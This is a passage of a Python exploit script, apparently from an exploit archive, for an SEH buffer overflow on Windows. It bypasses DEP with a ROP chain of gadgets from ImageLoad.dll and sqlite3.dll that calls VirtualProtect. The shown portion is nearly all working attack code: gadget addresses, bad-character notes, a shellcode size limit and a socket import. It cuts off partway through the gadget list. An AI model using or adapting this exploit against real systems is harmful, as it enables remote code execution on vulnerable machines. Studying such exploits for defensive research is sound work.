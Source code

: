 # Tested on: Windows 7 x64, but should work on any other Windows platform
#
# Notes:
# - based on non-DEP SEH buffer overflow exploit by Audit0r (https://www.exploit-db.com/exploits/38526/)
# - created for fun & practice, also because it's not 1998 anymore - gotta bypass that DEP! :)
# - bad chars: '\x00' and '\x3b'
# - max shellcode size allowed: 1260 bytes
#

import sys, socket, struct

# ROP chain generated with mona.py - www.corelan.be (and slightly fixed by @TheKnapsy)
# Essentially, use PUSHAD to set all parameters and call VirtualProtect() to disable DEP.
def create_rop_chain():

    rop_gadgets = [
	  # Generate value of 201 in EAX
	  0x10015442,  # POP EAX # RETN [ImageLoad.dll]
	  0xFFFFFDFF,  # Value of '-201'
	  0x100231d1,  # NEG EAX # RETN [ImageLoad.dll]
	
	  # Put EAX into EBX (other unneccessary stuff comes with this gadget as well...)
	  0x1001da09,  # ADD EBX,EAX # MOV EAX,DWORD PTR SS:[ESP+C] # INC DWORD PTR DS:[EAX] # RETN [ImageLoad.dll]
	  
	  # Carry on with the ROP as generated by mona.py
	  0x10015442,  # POP EAX # RETN [ImageLoad.dll] 
      0x61c832d0,  # ptr to &VirtualProtect() [IAT sqlite3.dll]
	
	  # Compensate for the ADD EBX,EAX gadget above, jump over 1 address, which is a dummy writeable location
	  # used solely by the remaining part of the above gadget (it doesn't really do anything for us)
	  0x1001281a,  # ADD ESP,4 # RETN [ImageLoad.dll]
	  0x61c73281,  # &Writable location [sqlite3.dll]
	